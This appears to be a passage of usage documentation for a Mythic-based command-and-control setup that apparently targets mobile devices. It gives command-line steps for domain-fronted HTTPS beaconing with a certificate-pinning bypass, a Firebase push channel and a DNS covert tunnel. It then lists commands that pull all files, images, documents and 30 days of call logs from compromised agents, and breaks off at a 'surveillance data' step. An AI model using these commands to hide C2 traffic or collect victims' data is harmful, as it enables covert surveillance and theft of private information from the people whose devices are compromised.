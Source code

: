 ### Profile-Specific Commands

#### HTTPS Beacon
```bash
# Configure domain fronting
mythic-cli c2 config --profile https_beacon \
  --domain-fronting true \
  --front-domain cdn.cloudflare.com \
  --real-domain your-c2.herokuapp.com

# Set custom headers
mythic-cli c2 config --profile https_beacon \
  --custom-headers '{"X-Forwarded-For": "192.168.1.1", "User-Agent": "Mozilla/5.0"}'

# Enable certificate pinning bypass
mythic-cli c2 config --profile https_beacon --bypass-pinning true
```

#### FCM Push
```bash
# Update Firebase configuration
mythic-cli c2 config --profile fcm_push \
  --service-account config/firebase-new-project.json

# Configure message priority
mythic-cli c2 config --profile fcm_push --priority high

# Test FCM connectivity
mythic-cli c2 test --profile fcm_push --test-token <fcm_token>
```

#### DNS Covert Channel
```bash
# Update DNS configuration
mythic-cli c2 config --profile dns_covert \
  --domain new-tunnel.example.com \
  --encoding base64 \
  --chunk-size 200

# Test DNS resolution
mythic-cli c2 test --profile dns_covert --test-query test.new-tunnel.example.com

# Configure DNS-over-HTTPS
mythic-cli c2 config --profile dns_covert --doh-provider google
```

## Data Collection

### Retrieving Agent Data

```bash
# Download all files from agent
mythic-cli data download --agent <agent_id> --all --output downloads/agent_data/

# Get specific file types
mythic-cli data download --agent <agent_id> --types "images,documents" --output downloads/

# Export structured data
mythic-cli data export --agent <agent_id> --format json --output reports/agent_data.json

# Get call logs
mythic-cli data get --agent <agent_id> --type call_logs --days 30 --output call_logs.csv

# Download surveillance data
```